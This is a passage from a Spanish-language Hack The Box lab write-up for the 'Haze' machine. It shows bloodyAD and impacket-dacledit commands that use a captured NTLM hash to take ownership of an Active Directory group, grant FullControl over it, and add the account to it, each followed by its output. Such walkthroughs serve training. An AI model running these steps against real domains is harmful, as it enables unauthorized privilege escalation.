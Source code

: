 ![](assets/img/htb-writeup-haze/haze2_3.png)

---
### Account Manipulation

Modifico el propietario del objeto `Support_Services`, asignando como nuevo dueño a `Haze-IT-Backup$`.

```terminal
/home/kali/Documents/htb/machines/haze:-$ bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":84d6a733d85d9e03f46eba25b34517a9" set owner SUPPORT_SERVICES Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES
```

Modifico los permisos de acceso al objeto, otorgando a `Haze-IT-Backup$` control total sobre el grupo.

```terminal
/home/kali/Documents/htb/machines/haze:-$ sudo impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':84d6a733d85d9e03f46eba25b34517a9'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250513-170121.bak
[*] DACL modified successfully!
```

Luego, agrego la propia cuenta `Haze-IT-Backup$` como miembro del grupo `Support_Services`.

```terminal
/home/kali/Documents/htb/machines/haze:-$ bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":84d6a733d85d9e03f46eba25b34517a9" add groupMember SUPPORT_SERVICES Haze-IT-Backup$
[+] Haze-IT-Backup$ added to SUPPORT_SERVICES
```

---